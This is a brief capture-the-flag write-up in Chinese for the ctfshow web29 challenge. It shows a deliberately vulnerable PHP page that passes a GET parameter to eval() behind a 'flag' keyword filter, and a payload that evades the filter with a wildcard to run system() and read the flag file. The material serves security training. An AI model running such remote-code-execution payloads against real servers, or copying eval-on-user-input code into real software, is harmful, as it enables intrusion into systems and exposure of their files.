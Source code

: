 ```yaml
---
{"dg-publish":true,"permalink":"/web/rce/ct-fshow-web-web29/","tags":["gardenEntry"]}
---
```


题目：
```php
<?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }

}else{
    highlight_file(__FILE__);
}
```
payload：
```php
?c=system('cat fla*');
```